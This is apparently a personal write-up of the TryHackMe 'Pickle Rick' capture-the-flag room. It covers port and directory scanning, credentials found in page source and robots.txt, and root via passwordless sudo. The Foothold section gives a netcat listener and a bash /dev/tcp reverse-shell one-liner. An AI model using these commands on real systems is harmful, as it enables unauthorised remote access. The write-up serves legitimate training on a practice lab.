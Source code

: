 ```yaml
---
layout: default
title: "TryHackMe - Pickle Rick Writeup"
permalink: /writeups/tryhackme/pickle-rick
---
```


![TryHackMe: Pickle Rick (Easy)](images/Pickle_Rick.jpeg)
<h1><ins>TryHackMe: Pickle Rick Writeup</ins></h1>

**Date:** 11/11/2022\
**Author:** [acfirthh](https://github.com/acfirthh)

**Machine Name:** Pickle Rick\
**Difficulty:** Easy\
**Link to Machine:** [TryHackMe - Pickle Rick (Easy)](https://tryhackme.com/room/picklerick) 

## NMAP Scan
```
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-11 17:59 GMT
Nmap scan report for 10.10.32.121
Host is up (0.16s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 463661da27ac12579f77e04349112ba9 (RSA)
|   256 30d8339c46870d29365ff6770c7f31c3 (ECDSA)
|_  256 f35aa4804bd71f7d68a4735ad4e9e489 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
From the NMAP scan, I can see that there is a website hosted on port 80. Browsing to the website, it seems to be a pretty uninteresting page. So I decide to do a Gobuster scan.

## Gobuster Scan
```
/index.html
/login.php
/assets
/portal.php
/robots.txt
```
Checking **/robots.txt** I see there is some text, I first thought maybe it could be a directory, but trying to browse to it returns a **404 Not Found** so I noted it down anyway, _maybe it'll come in handy later..._

**/assets** just contains images, CSS, and JavaScript files but nothing useful.

**/portal.php** redirects straight to the **/login.php** page.

At this point I thought I'd view the source code of the pages and there just happened to be some useful information waiting for me in the HTML of **/index.html**
```
Note to self, remember username!
Username: R1ckRul3s
```

Well, now we have a username, maybe we can try guess some passwords for the login page. Remembering the text we found before in **/robots.txt**, maybe that could be a possible password... SUCCESS! I'm logged in and redirected to **/portal.php**. It's a dashboard where I can run system commands on the machine.

## Foothold
Running the command `ls`, it returns a list of files in the directory of the webserver:
```
Sup3rS3cretPickl3Ingred.txt   <-- This is the first flag we need for the CTF
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```

Trying to read files using `cat`, it returns that the command is blocked. Instead, I decided to get a shell on the machine.

- First I started a listener: `nc -nvlp <port>`
- Then I ran this command to get a reverse shell: `bash -c "bash -i >& /dev/tcp/<ip_address>/<port> 0>&1"`

A shell on the machine! Now I can read the **Sup3rS3cretPickl3Ingred.txt** file to get the first flag.

Changing directory to **/home** I see there are two home directories, **rick** and **ubuntu**. Moving into **/home/rick** I see the second flag needed for the CTF.

## Privilege Escalation (root)
Running `sudo -l` to check if the user had any sudo privileges returned:
```
User www-data may run the following commands on ip-10-10-153-73.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```
Fantastic! I can run any command I want, using sudo, with NO PASSWORD!

I run `sudo /bin/bash` spawns a root shell!

Changing directory to **/root**, I find the final flag needed to complete the CTF!
